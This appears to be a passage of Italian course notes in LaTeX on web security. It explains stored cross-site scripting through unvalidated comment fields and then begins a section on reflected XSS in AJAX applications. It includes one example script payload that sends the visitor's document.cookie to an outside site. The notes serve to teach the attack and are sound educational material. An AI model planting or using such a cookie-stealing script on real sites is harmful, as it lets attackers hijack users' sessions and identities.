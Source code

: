 \documentclass[12pt]{article}
\begin{document}
				\textbf{Senza efficace validazione degli input} un attaccante può inserire degli script in javascript all'interno di uno script di echo (scritto per esempio in php) per \textbf{inviare il cookie dell'utente invece che al sito di destinazione ad un sito dell'attaccante}.\\
				<script>window.open(’http://google.it?
				cookie=’+document.cookie)</script>\\
				Una possibile \textbf{applicazione} potrebbe riguardare siti nei quali è possibile inserire commenti, se la validazione degli input non è fatta in modo oculato un attaccante può aggiungere codice javascript alla pagina.  \textbf{Tutte le persone che successivamente caricheranno quella pagina eseguiranno il codice lasciato nel commento.} Se il sito gestisce dei cookie è questi ultimi sono \textbf{reindirizzati verso l'attaccante, che li può utilizzare per accedere ai servizi con l'identità di un utente del sito di partenza}.
			\subsubsection{Cross-site-scripting (XSS) reflected: AJAX}
				Si posso fare attacchi simili (codice eseguito a seguito di un messaggio di errore) sfruttando:
				\begin{itemize}
					\item Link HTML all'interno delle mail
					\item errori prodotti da web server mail configurati (404)
				\end{itemize}
				Vediamo attacchi relativi alla tecnologia \textbf{AJAX} (Asynchronous JavaScript and XML). Si tratta di un \textbf{paradigma per la programmazione online} che lega un qualsiasi linguaggio di backend con lo scopo di realizzare un'interazione \textbf{asincrona} tra client e server. In questo modo la pagina reagisce in tempo reale alle azioni dell'utente (gmail, facebook). \textbf{Ajax non è una nuova tecnologia ma una composizione di tecnologie esistenti, con gli stessi problemi di quest'ultime, ma con una piu complessa gestione della sicurezza}. \\ 
								
\end{document}
